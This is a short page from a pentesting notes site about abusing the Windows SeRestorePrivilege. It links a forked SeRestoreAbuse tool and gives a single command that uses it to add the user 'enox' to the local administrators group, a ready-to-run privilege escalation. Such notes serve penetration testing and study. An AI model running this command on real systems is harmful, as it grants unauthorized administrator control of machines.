

repository: amandaguglieri/hackinglife · page: serestoreprivilege/index.html · generator: mkdocs

---
title: SeRestorePrivilege
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - windows
  - privilege
  - SeRestorePrivilege
---
# SeRestorePrivilege


SeRestorePrivilege is a dangerous permission. [Forked the repo](https://github.com/amandaguglieri/Privescalation/tree/main/tools/SeRestoreAbuse) that exploit this privilege:

```bash
.\SeRestoreAbuse-x64.exe "cmd /c net localgroup administrators enox /add"
```
